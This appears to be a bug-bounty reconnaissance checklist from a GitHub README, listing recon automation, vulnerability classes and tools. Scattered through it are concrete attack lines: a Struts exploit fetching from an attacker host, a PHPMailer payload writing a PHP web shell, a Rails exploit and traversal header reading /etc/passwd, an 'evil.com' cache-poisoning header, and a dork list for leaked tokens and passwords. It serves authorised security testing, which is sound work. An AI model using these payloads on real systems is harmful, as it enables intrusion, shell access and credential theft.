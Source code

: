 #					My Bug-Bounty Recon Process

### Recon Process in two part 

    1-Automation
    2-Manual
    3-After Recon: Exploit

**1- Start Automation in background, while automating time you can manually check all features of web and check every thing, Don't forget to analyse `source code`**

	1 Gather Subdomain
	2 Gather URLs,GF-Pattern
	3 Gather JS File
	4 Gather IP,Port
	5 Google/Github Dorking

### 2- Let's check mannually all vulnerability types.

<details><summary>Bug</summary>
<p>

#### We can hide anything, even code!
	- Blind XSS
		- Blind XSS payload in User-Agent header
		- BXSS Payload while logging (Enter the BXSS Payload in forgot pass, login, singup to generate errors)
		- Use BXSS Pyload as your password
	- Add Header in the Match an Replace Proxy- Add X-Forwarded-Host: evil.com - browse the program and then click burp search and try to find your X-Forwarded-Host: Value for web chache deception,poisoning.

	- HTTP Request Sumggling > Ihave give this ariticle and tool in my telegram.
	- Apply on .html to xhtml
	- python struts-pwn.py -u http://site.com/orders.xhtml -c "wget http://ip:1337/test" --exploit
	- Test For Electronic code book (AAAAAAA aaaaaa BBBBBB)
	- CVE-2016-10033: PHPMailer RCE
		- email: "attacker@127.0.0.1\" -oQ/tmp/ -X/var/www/shell.php root"127.0.0.1
		- subject: <?php system($_GET['cmd']);?>

	- Change all the request to TRACE method to disclose or access info.
	- Check For broken link - tool: blc https://comany.com -ro 

	- companyname.atlassian.net
	- jira.companyname.com
	- VHOST Testing
	- Test For buckets
	- Check Github & dork list
		(api,token,username,password,secret,dev,prod,jenkins,config,ssh,ftp,MYSQL_PASSWORD,admin,AWS,bucket,GITHUB_TOKEN)
	- gau or gauplus site.com
	- waybackurl site.com
	- Accessing misconfigured data of an org: https://storage.googleapis.com/<org-name>
	- Unautorized access to org's google groups: https://groups.google.com/a/<org-name>
	- if running ruby on rails then: Accept: ../../../../../../../../../etc/passwd{{
	- CVE-2013-0156: Rails Object injection: ruby rails_rce.rb http://site.com 'cp /etc/passwd public/file.txt'
		(raw- https://gist.github.com/postmodern/4499206/raw/a68d6ff8c1f9570a09365036aeb96f6a9fff7121/rails_rce.rb)
		(https://gist.github.com/postmodern/4499206)
	- CVE-2013-0156 Hint: PHP based website on NGINX phpip-fpizdam http://site.com/anyphpfile.php
	- Check FOr crlf injection
	- Bypass Open redirection protection
	- keyfinder
	- Google Dork
	> check email verfication admin@site.com
	> site.com/home/....4....json [will disclose all the content of the home dir | sensitive info]
	- CVE-2019-19781 Ciritix NetScaler Directory Traversal: curl -vk -path-as-is https://$target/vpn/../vpns/ 2>&1 | grep "You don't have permission to access /vpns/" >/dev/null && echo "Vulnerable $Target" || echo "MITIGATED: $TARGET"



</p>
</details>

## Specific Buf List:
	
- [ ] Authentication
- [ ] OAuth authentication
- [ ] SQL injection
	- Use GF to grep all possible sqli parameter
	- Use SQLi [Destector](https://github.com/eslam3kl/SQLiDetector?s=09)
	- Use User-Agent fuzzer for [sqli](https://github.com/root-tanishq/userefuzz)
	- Use Error base sqli template nuclei.
- [ ] XSS
<details><summary>XSS Check list and TIPs</summary>
<p>
      -  Stored XSS 
      -  Reflect XSS 
      -  DOM XSS 
      -  Blind XSS 
      -  Header injection 
      -  XSS in cookie body, Local Storage
      -  Proto type pollution 
      -  HTMLi
	
### XSS hunting with ffuf 
	```ffuf -w /usr/share/wordlists/dirb/big.txt -u https://rob-sec-1.com/FUZZ -o Ffuf/Recruitment.csv -X HEAD -of csv```
	What this tool will do is try to enumerate different directories within the application,replacing FUZZ with items from the big.txt list of words. If we sneak peek a sample of this file:
	Running the above generated the following CSV that we can read from the Linux terminal using the ```column``` command:
	```column -s, -t Ffuf/Recruitment.csv```
	
</p>

- [ ] CSRF
- [ ] IDOR
- [ ] Clickjacking
- [ ] DOM-based
- [ ] vCORS
- [ ] XXE
- [ ] SSRF

       - Try SSRF in Referer header : Shellshock Exploitation 
       - Test with match and replace in burp 
       - Read SSRF Checklist 
- [ ] Request smuggling
- [ ] Command injection
- [ ] Server-side template injection
       - [Try This Tool](https://github.com/faiyazahmad07/SSTI_DETECTOR)
       
- [ ] Insecure deserialization
- [ ] Directory traversal
- [ ] Access control
- [ ] Business logic vulnerabilities
- [ ] Web cache poisoning
- [ ] HTTP Host header attacks
- [ ] WebSockets
- [ ] Information disclosure
- [ ] File upload vulnerabilities
- [ ] JWT attacks





### Subdomain Takeover: 
- *Try a tool name subzy*
- *Try this subjack*
	subjack -w subdomain.txt -t 20 -timeout 30 -o subjack1.txt -ssl -a -c "/root/fingerprints.json"
	subzy -targets host.txt --hide_fails --concurrency 100
	
- Try [DNS-Reaper](https://www.kitploit.com/2022/08/dnsreaper-subdomain-takeover-tool-for.html?m=1) 
